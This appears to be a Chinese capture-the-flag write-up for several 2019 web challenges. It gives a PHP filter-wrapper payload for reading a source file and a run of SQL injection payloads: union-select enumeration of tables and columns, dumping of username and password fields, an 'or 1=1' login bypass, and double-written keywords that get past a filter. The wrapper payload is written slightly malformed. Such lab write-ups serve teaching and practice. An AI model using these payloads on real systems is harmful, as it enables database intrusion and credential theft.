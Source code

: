 # [极客大挑战 2019]Secret
这个题根据源码提示访问action.php然后访问secr3t.php。考察php伪协议
直接php伪协议读取flag.php
`file=php//filter/read=convert.base64-encode/resource=./flag.php`
解码得flag
# 
`order by 3`
正常
`order by 4`
报错
然后
`'union select 1,2,3#`
发现2,3位可以回显

查表
`'union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()#`
![在这里插入图片描述](img/20210526175501528.png)
查列
`'union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='l0ve1ysq1'#`
![在这里插入图片描述](img/20210526175654420.png)
查字段
`' union select 1,2,group_concat(id,username,password) from l0ve1ysq1#`

# [极客大挑战 2019]EasySQL
直接万能密码`'or 1=1`出来flag

# [极客大挑战 2019]BabySQL
输入'报错
直接`order by 5`发现
![在这里插入图片描述](img/20210526180352229.png)or和by被换为空，所以用双写绕过
`oorrder bbyy 4`
报错
`oorrder bbyy 3`
正常
`admin'union select 1,2,3#`
![在这里插入图片描述](img/20210526180552251.png)union和select都被过滤直接双写绕过
![在这里插入图片描述](img/20210526180711464.png)
和上一个就差不多了
表
`'ununionion  selselectect 1,2,group_concat(table_name) frfromom infoorrmation_schema.tables whwhereere table_schema=database()#`
列
`'ununionion  selselectect 1,2,group_concat(column_name) frfromom infoorrmation_schema.columns whwhereere table_schema=database() aandnd table_name='b4bsql'#`
字段
`'ununionion selselectect 1,2,group_concat(id,username) frofromm b4bsql#`
